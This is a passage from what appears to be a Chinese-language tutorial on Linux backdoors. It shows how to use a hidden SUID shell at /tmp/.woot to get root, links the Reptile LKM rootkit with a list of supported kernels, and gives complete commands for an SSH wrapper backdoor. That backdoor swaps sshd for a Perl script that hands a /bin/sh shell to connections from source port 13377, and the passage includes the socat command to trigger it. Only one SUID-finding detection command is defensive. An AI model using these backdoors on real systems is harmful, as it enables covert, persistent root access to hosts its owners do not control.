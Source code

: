 使用一般用户运行：

```
Copy`$/tmp/.woot 
$/tmp/.woot -p    //bash2 针对 suid 有一些护卫的措施，使用-p参数来获取一个root shell` 
```

检测：查找具有suid权限的文件即可

```
Copy`find / -perm +4000 -ls
find / -perm -u=s -type f 2>/dev/null` 
```

### 0x03 LKM Linux rootkit后门

项目地址:[https://github.com/f0rb1dd3n/Reptile](https://github.com/f0rb1dd3n/Reptile)

适用的系统:

```
Copy`Debian 9：4.9.0-8-amd64 
Debian 10：4.19.0-8-amd64 
Ubuntu 18.04.1 LTS：4.15.0-38-generic 
Kali Linux：4.18.0-kali2-amd64 
Centos 6.10：2.6.32- 754.6.3.el6.x86_64 
Centos 7：3.10.0-862.3.2.el7.x86_64 
Centos 8：4.18.0-147.5.1.el8_1.x86_64` 
```

### 0x04 SSH 后门

#### 4.1 SSH wrapper

判断连接来源端口，将恶意端口来源访问传输内容重定向到/bin/sh中:

```
Copy`cd /usr/sbin/
mv sshd ../bin/

echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd   //4A是13377的小端模式
echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd

/etc/init.d/sshd restart` 
```

在本机执行:

```
Copy`socat STDIO TCP4:target_ip:22,sourceport=13377` 
```

[![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200306165200237-492698024.png)](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200306165200237-492698024.png)

实现原理：init 首先启动的是 /usr/sbin/sshd ,脚本执行到 getpeername 这里的时候，正则匹配会失败，于是执行下一句，启动 /usr/bin/sshd ，这是原始 sshd 。原始的 sshd 监听端口建立了 tcp 连接后，会 fork 一个子进程处理具体工作。这个子进程，没有什么检验，而是直接执行系统默认的位置的 /usr/sbin/sshd ，这样子控制权又回到脚本了。此时子进程标准输入输出已被重定向到套接字， getpeername 能真的获取到客户端的 TCP 源端口，如果是 13377 就执行sh给个shell。
